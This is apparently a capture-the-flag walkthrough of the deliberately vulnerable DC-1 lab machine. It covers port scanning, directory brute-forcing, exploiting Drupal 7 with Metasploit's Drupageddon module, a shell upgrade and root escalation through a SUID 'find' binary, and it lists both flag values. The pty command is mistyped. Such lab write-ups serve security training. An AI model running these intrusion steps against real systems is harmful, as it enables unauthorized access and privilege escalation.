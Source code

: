```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# DC-1

### NMAP

```shell
nmap -sV -sC -T4 -p- -oN dc1 192.168.242.193  192.168.240.193
```

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ENUMERATION

#### rpc

```markdown
rpcinfo -p 192.168.242.193
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  53990  status
    100024    1   tcp  46232  status
                                       
```

#### http (port 80)

<figure><img src="../.gitbook/assets/rt (1).png" alt=""><figcaption></figcaption></figure>

checking the robots.txt file

<figure><img src="../.gitbook/assets/cd.png" alt=""><figcaption></figcaption></figure>

a full list of files is below

```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

**DIRECTORY TRANSVERSAL**

feroxbuster

```shell
feroxbuster -u http://192.168.240.193 -x html,php,txt
```

since we know that site its using **Drupal 7** from our nmap or when you check the source code, lets search for its exploits

<figure><img src="../.gitbook/assets/dp.png" alt=""><figcaption></figcaption></figure>

#### checking for exploits with msfconsole

```shell
search Drupal 7
```

<figure><img src="../.gitbook/assets/dc12.png" alt=""><figcaption></figcaption></figure>

Now i tried on the first exploits, they didn't work then i tried the second exploit and it worked for me well

```shell
1. use exploit/multi/http/drupal_drupageddon
2. show options
```

<figure><img src="../.gitbook/assets/dc13.png" alt=""><figcaption></figcaption></figure>

Now you have to set the **RHOSTS** to our target machine , we set the **LHOST** which our attack machine and the **LPORT** which is our listening port, since our website is running direct on port 80 which is our root, we don't need to change the **TARGETURI**

<figure><img src="../.gitbook/assets/DC14.png" alt=""><figcaption></figcaption></figure>

Now our payload is delivered successfully and the meterpreter is started, with just a **shell** command we get access to our machine terminal. After getting access to our machine i had to check if it has python installed so that is elevate to a unrestricted shell.

```shell
1. which python
2. python 'import pty;pty.spwan("/bin/bash")'
```

<figure><img src="../.gitbook/assets/dc15.png" alt=""><figcaption></figcaption></figure>

we find our first flag when we enter in out **/home** directory

```shell
cat flag.txt
```

flag

```markdown
a0db6e93743d9477744b9c4084c6aa14
```

### privilege escalation

After finding our first flag we have have to see how we can elevate our privileges I tried to download **linpeas** to a victim machine but i never had permission so i tried another way which is finding the **SUID**

```shell
find / -user root -perm /4000 2>/dev/null
```

<figure><img src="../.gitbook/assets/dc16.png" alt=""><figcaption></figcaption></figure>

in the list give i happen to see find and to check it on **GTFOBins** i found a shell command that can give me the root shell [find-GTFOBin](https://gtfobins.github.io/gtfobins/find/#shell)

```shell
find . -exec /bin/sh \; -quit
```

After getting acces to a root machine we find the final flag in the **/root** path

<figure><img src="../.gitbook/assets/dc17.png" alt=""><figcaption></figcaption></figure>

```markdown
1. cat proof.txt
	dd4bb4fc19607a2d17da212ef2646b07
```

machine successfully hacked.
